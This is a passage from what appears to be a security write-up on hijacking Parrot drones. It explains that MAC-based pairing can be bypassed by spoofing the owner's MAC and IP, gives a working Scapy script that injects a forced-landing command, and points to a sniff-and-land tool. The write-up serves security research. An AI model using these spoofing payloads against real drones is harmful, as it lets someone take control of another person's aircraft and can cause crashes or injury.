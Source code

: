 But this doesn't prevent anyone from connecting to the drone's WiFi, the drone will only drop the packets if the MAC address is not the one it is paired with (and if the accessed service is not icmp, ftp or nfs). So of course if we would use the same script as before, that won't work, since the drone would drop our packets. But we can simply spoof the source MAC address too:
```python
from scapy.all import *
from time import sleep

srcIP = '192.168.1.2' # my phone's IP
dstIP = '192.168.1.1' # drone's IP
srcPort = 5556 # source port
dstPort = 5556 # destination port
srcMAC = '58:44:98:13:80:6c' # my phone's MAC
dstMAC = '90:03:b7:e8:55:72' # drone's MAC

payload = "AT*REF=1000000,290717696\r"
print payload
spoofed_packet = Ether(src=srcMAC, dst=dstMAC) / IP(src=srcIP, dst=dstIP) / UDP(sport=srcPort, dport=dstPort) / payload
sendp(spoofed_packet, iface="wlan0")
```
For the demo I again sent 10 packets, then restored the control after 5 seconds. [Here](code/2.py) is the code.

Of course manually setting the MAC and IP isn't the most convenient thing, so I wrote a script which sniffs for parrot packets, then parses the IP and MAC addresses and send the land packets using those addresses. It is available [here](code/sniff_and_land.py). All you need to do is connect to a Parrot's WiFi and then run the script.

## Turn pairing off

So we saw, that pairing won't stop us from taking over the drone and make it do whatever we want it to do, but it successfully stops us from accessing it via telnet. Of course we could change our MAC address, but I found a way to simply turn off the feature remotely. Let's look at the communication when the feature is enabled:
